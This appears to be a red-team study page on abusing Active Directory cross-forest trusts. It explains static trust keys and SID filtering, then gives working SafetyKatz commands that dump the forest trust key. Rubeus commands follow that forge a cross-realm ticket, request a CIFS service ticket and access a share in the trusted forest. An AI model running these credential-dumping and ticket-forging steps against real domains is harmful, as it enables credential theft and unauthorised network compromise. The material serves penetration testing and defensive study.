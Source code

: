 # Cross-Forest

In a cross-forest Active Directory environment, the mechanics of trust relationships mirror those of cross-domain trusts. However, while cross-domain trust relationships are implicit within a forest, **cross-forest trusts must be explicitly configured by administrators**. This deliberate configuration allows two separate forest roots to authenticate users and resources across organizational boundaries.

Trust tickets operate in the same way in forest trusts as they do between domains. If Domain Admin or Enterprise Admin access is obtained on one forest root, it becomes possible to impersonate similarly privileged users in the trusted forest, assuming the trust relationship permits it and the conditions are met.

A critical difference lies in the trust key management. Unlike domain trust keys, which rotate automatically (typically every 30 days), **the key used in a forest trust remains static unless manually changed**. This makes it an attractive target for long-term persistence, especially when combined with ticket forging techniques.

To defend against privilege escalation across forest boundaries, Active Directory implements **SID filtering**. This mechanism **strips certain well-known SIDs from tickets issued across a forest trust**. Specifically, SIDs in the range typically associated with built-in privileged groups (e.g., Domain Admins starting at RID 500 and Domain Controllers at 1000) are filtered out. As a result, attempts to embed these SIDs into a forged ticket from a foreign forest will be blocked by default.

<figure><img src="../../../.gitbook/assets/cross-forest-trusts.png" alt=""><figcaption></figcaption></figure>

However, this filtering can be bypassed if misconfigurations exist—especially when high-privileged groups are custom-created and assigned SIDs outside the filtered range. This scenario often arises in environments where administrators create new groups with elevated permissions but do not consider how SID filtering might interact with these roles. If a forest trust exists, there is usually a reason for it, and that reason often introduces risk if not properly managed.

{% tabs %}
{% tab title="1. Trust Key " %}
To exploit such a trust, the first step is extracting the forest trust key (rc4):

```powershell
.\SafetyKatz.exe "lsadump::trust /patch"
.\SafetyKatz.exe "lsadump::lsa /patch"
.\SafetyKatz.exe "lsadump::dcsync /user:dcorp\ecorp$" "exit"
```
{% endtab %}

{% tab title="2. TGT" %}
Once the trust key is obtained, it can be used to forge a cross-realm TGT (`krbtgt/domain`):

{% code overflow="wrap" %}
```powershell
.\Rubeus.exe silver /service:krbtgt/dollarcorp.moneycorp.local /rc4:<trust-key> /sid:<current-domain-SID> /ldap /user:Administrator /nowrap
```
{% endcode %}
{% endtab %}

{% tab title="3. TGS" %}
With the TGT in hand, a TGS request can be issued for a service in the trusted forest (e.g. HTTP, CIFS, etc.) on the target host:

{% code overflow="wrap" %}
```powershell
# TGS Request using the forged TGT
\Rubeus.exe asktgs /service:cifs/eurocorp-dc.eurocorp.local /dc:eurocorp-dc.eurocorp.local /ptt /ticket:doI...2Fs

# Access the target resource
>dir \\eurocorp-dc.eurocorp.local\<explicitly-shared-share>\
```
{% endcode %}
{% endtab %}
{% endtabs %}

While **enumeration of external forests via service tickets is noisy and easily detected**, it remains the **only practical method for mapping trust paths** in a red team engagement without direct access to forest-wide enumeration tools.
